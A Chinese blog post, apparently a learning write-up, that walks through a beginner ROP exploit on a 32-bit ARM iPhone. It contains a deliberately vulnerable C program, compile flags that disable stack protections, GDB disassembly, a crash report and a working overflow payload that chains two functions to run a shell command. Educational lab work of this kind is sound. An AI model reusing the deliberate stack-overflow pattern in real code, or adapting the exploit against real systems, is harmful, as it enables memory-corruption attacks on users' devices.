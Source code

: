 ```yaml
---
layout: post
title: ROP Exploit实验 1
slug: ROP Exploit实验 1
category: iOS Exploitation
published: true
---
```


### 概述

本文主要是通过简单的实验来弄清楚ROP Exploit的一些基本原理。不正之处欢迎指正。

简单回顾下上一篇[ARM环境下的漏洞利用](http://madmark.cc/2017/11/11/ARM_Exploitation_intro/)的关键知识点：

通过运行程序后输入一个指定格式的字符串，利用某些函数不检查字符串长度的缺陷，栈溢出后覆盖到函数入口push到栈上的`PC`值。所以该值`pop`回`PC`的时候，读取到了你输入的字符串中的值。将目标函数入口地址替换到你输入字符串中的指定位置，使`PC`读取该目标函数入口地址即可实现非正常跳转。

但是通常不太可能只是简单的跳转到一个指定函数，而是需要跳转多个函数来达到漏洞利用的目的。即跳转A再跳转B再跳转C等等。如何实现呢？<!--more-->我们已经能跳转到一个函数，如何在这个函数中使`PC`包含其他函数入口的地址呢？

**实验环境：**`iPhone4`	`iOS7.1.2`

### 一个有漏洞的程序

先打造一个存在漏洞的程序，这个程序有两个我们可以利用的函数`change`和`secret`

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char command[] = "date";

void change() {
	strcpy(command, "ls");
	printf("command changed.\n");
}

void secret() {
	printf ("executing command ...\n");
	system(command);
}

int main() {
	
	printf("Welcome to ROPLevel 1 for ARM!\n");
	char buff[12];
	scanf("%s", buff);
	
	return 0;
}

```

**编译的时候仍然需要关掉thumb模式和一些保护特性。**

``` 
# clang roplevel1.c -isysroot /var/iPhoneOS8.1.sdk/ -mno-thumb -fno-pie -fno-stack-protector -o roplevel1
```

仍旧是利用了`scanf`函数的缺陷。`change`和`secret`两个函数按理不会被执行到。我们的目的，就是在输入字符串后，先执行`change`函数，将`command`替换为`ls`，随后执行`secret`函数来通过`system()`函数执行命令。

###原理探究

跳转到`change`函数我们已经可以做到了，关键是跳转到`secret`。那么问题就变成执行完`change`函数时如何改变`PC`寄存器的值，使它替换成`secret`函数的入口地址。函数的结尾一定是通过`pop`来将值推入`PC`，执行到这步之前，栈上只有函数入口处保存的`r7`和`PC`，也就是要改变入栈时候的`PC`的值！

那么，首先我们在跳转到`change`函数的时候，不让它执行`push {r7, PC}`的操作，然后在栈上存放一个`r7`（可以是随意的值）和一个`secret`的函数地址，使这个函数在`pop {r7, PC}`后，`PC`中的值是`secret`函数地址。

**理一下思路：**

1. 解决不执行`change`函数入口的`push`。我们可以在跳转到`change`函数的时候直接使用该函数的第二条指令的地址。这样不会影响程序的执行，只是会影响函数的返回。

2. 栈上需要两个分别`pop`回`r7`和`PC`的值。这个我们可以在输入的字符串中设置。因为栈上的数据每次读取都是4个字节，我们输入的字符串溢出的长度只要刚好覆盖到栈上两个4字节的数据即可。

一图胜千言（随便画的），最终我们输入的字符串要满足这样的条件：

![IMG](../assets/images/stack_1.jpg)

当输入完字符串buff溢出后，将会执行`pop {r7, lr}`，这样就会把`change`的第二条指令地址（图上`change().addr`即指第二条指令）和garbage弹回`r7`和`lr`。`change`函数执行到最后也会有个pop的动作，此时，栈上的`secret`地址会被弹回到`lr`中（至于`r7`会被弹入什么我们暂且不关心），这样就达到了我们的目的: main -> change ->secret

### 实验

1. 通过GDB找到两个函数的入口地址，记得`change`函数需要用到的是第二条指令的地址：

 ```
 (gdb) disassemble secret
Dump of assembler code for function secret:
0x0000be94 <secret+0>:  80 40 2d e9                   push	{r7, lr}
0x0000be98 <secret+4>:  0d 70 a0 e1                   mov	r7, sp
0x0000be9c <secret+8>:  08 d0 4d e2                   sub	sp, sp, #8	; 0x8
0x0000bea0 <secret+12>:  91 0f 0b e3                   movw	r0, #49041	; 0xbf91
0x0000bea4 <secret+16>:  00 00 40 e3                   movt	r0, #0	; 0x0
0x0000bea8 <secret+20>:  51 00 00 eb                   bl	0xbff4
0x0000beac <secret+24>:  30 10 0c e3                   movw	r1, #49200	; 0xc030
0x0000beb0 <secret+28>:  00 10 40 e3                   movt	r1, #0	; 0x0
0x0000beb4 <secret+32>:  04 00 8d e5                   str	r0, [sp, #4]
0x0000beb8 <secret+36>:  01 00 a0 e1                   mov	r0, r1
0x0000bebc <secret+40>:  4e 00 00 eb                   bl	0xbffc
0x0000bec0 <secret+44>:  00 00 8d e5                   str	r0, [sp]
0x0000bec4 <secret+48>:  07 d0 a0 e1                   mov	sp, r7
0x0000bec8 <secret+52>:  80 80 bd e8                   pop	{r7, pc}
End of assembler dump.
(gdb) disassemble change
Dump of assembler code for function change:
0x0000be50 <change+0>:  80 40 2d e9                   push	{r7, lr}
0x0000be54 <change+4>:  0d 70 a0 e1                   mov	r7, sp
0x0000be58 <change+8>:  08 d0 4d e2                   sub	sp, sp, #8	; 0x8
0x0000be5c <change+12>:  30 00 0c e3                   movw	r0, #49200	; 0xc030
0x0000be60 <change+16>:  00 00 40 e3                   movt	r0, #0	; 0x0
0x0000be64 <change+20>:  7c 1f 0b e3                   movw	r1, #49020	; 0xbf7c
0x0000be68 <change+24>:  00 10 40 e3                   movt	r1, #0	; 0x0
0x0000be6c <change+28>:  05 20 00 e3                   movw	r2, #5	; 0x5
0x0000be70 <change+32>:  5d 00 00 eb                   bl	0xbfec
0x0000be74 <change+36>:  7f 1f 0b e3                   movw	r1, #49023	; 0xbf7f
0x0000be78 <change+40>:  00 10 40 e3                   movt	r1, #0	; 0x0
0x0000be7c <change+44>:  04 00 8d e5                   str	r0, [sp, #4]
0x0000be80 <change+48>:  01 00 a0 e1                   mov	r0, r1
0x0000be84 <change+52>:  5a 00 00 eb                   bl	0xbff4
0x0000be88 <change+56>:  00 00 8d e5                   str	r0, [sp]
0x0000be8c <change+60>:  07 d0 a0 e1                   mov	sp, r7
0x0000be90 <change+64>:  80 80 bd e8                   pop	{r7, pc}
End of assembler dump.
(gdb) q
 ```
OK，两个地址分别是`0x0000be94`和`0x0000be54`

2. 定制攻击字符串进行Exploit
字符串的定制，可以先和上一篇一样，输入类似`AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH`来尝试，崩溃后查看CrashReporter中的信息来确定哪几个字符被`pop`回`PC`了。

```
Date/Time:           2017-12-03 23:31:50.416 +0800
OS Version:          iOS 7.1.2 (11D257)
Report Version:      104

Exception Type:  EXC_BAD_ACCESS (SIGSEGV)
Exception Subtype: KERN_INVALID_ADDRESS at 0x46464646
Highlighted Thread:  0

Backtrace not available

Unknown thread crashed with ARM Thread State (32-bit):
    r0: 0x00000000    r1: 0x00000000      r2: 0x00000100      r3: 0x00002060
    r4: 0x00000000    r5: 0x00000000      r6: 0x00000000      r7: 0x45454545
    r8: 0x27dff888    r9: 0x00000001     r10: 0x00000000     r11: 0x00000000
    ip: 0x3d834bd8    sp: 0x27dff888      lr: 0x0000bf08      pc: 0x46464646
  cpsr: 0x40000010
```
可以看到，弹回`PC`的值是`0x46464646`也就是字符`FFFF`。所以只要替换掉`FFFF`就可以，后面紧跟一个4字节的任意字符，我们就用0x41414141，再跟一个`secret`函数地址。最终的字符串是这样的：
`AAAABBBBCCCCDDDDEEEE\x54\xbe\x00\x00\x41\x41\x41\x41\x94\xbe\x00\x00`。因为是小端(little endian)的关系，地址都是逆向输入的。最后，使用`printf`灌入字符串，执行程序。

```
Jins:~/Code root# printf "AAAABBBBCCCCDDDDEEEE\x54\xbe\x00\x00\x41\x41\x41\x41\x94\xbe\x00\x00" | ./roplevel1
Welcome to ROPLevel 1 for ARM!
command changed.
executing command ...
hello  hello.c	roplevel1  roplevel1.c	vuln  vuln.c
Bus error: 10
Jins:~/Code root#

```
可以看到`ls`命令执行了。至此，我们的实验已经成功了。

### 总结

简单来说，这个ROP实验就是通过栈溢出，将跳转地址覆盖到栈上保存的函数返回地址后达到非正常跳转的目的。

在真实的情况下不会没这么简单，一般都需要连接好几个函数，还需要做栈修复之类的工作，可以看到实验最后还是报错退出来，正常来说应该要使程序正常执行。这篇主要是讲ROP的工作原理，所以暂时不涉及其他的。

最后一点是关于写文章的心得。自己看书跟着做实验的时候觉得自己已经明白了，但一写文章，需要理清思路的时候就会发现很多细节之前其实都没想明白。写完就觉得整个思路清晰不少，收获更是不少！

### 参考

[BillyEllis's blog](http://billyellis.net)

另外我还推荐这个博客作者[@bellis1000](https://twitter.com/bellis1000)前段时间出的一本书，书名及链接:[《Beginner's Guide to Exploitation on ARM》](http://zygosec.com/Products/)
